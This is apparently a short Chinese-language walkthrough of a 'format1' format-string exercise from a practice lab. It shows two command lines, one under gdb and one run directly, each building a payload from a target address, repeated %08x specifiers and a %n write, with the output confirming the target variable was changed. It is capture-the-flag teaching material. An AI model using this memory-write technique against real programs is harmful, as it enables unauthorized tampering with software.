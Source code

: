 使程序输出：`you have modified the target :)`。



## 攻击过程

```shell
(gdb) r $(python -c 'print "\x38\x96\x04\x08" + "AAAAA" + "%08x."*131 + "[%08n]"')
...
you have modified the target :)
```

<img src=".\format1-result-1.png" style="zoom: 67%;" />

```shell
$ ./format1 $(python -c 'print "\x38\x96\x04\x08" + "AAAAA" + "%08x."*122 + "[%08n]"')
...
you have modified the target :)
```

<img src=".\format1-result-2.png" style="zoom: 67%;" />
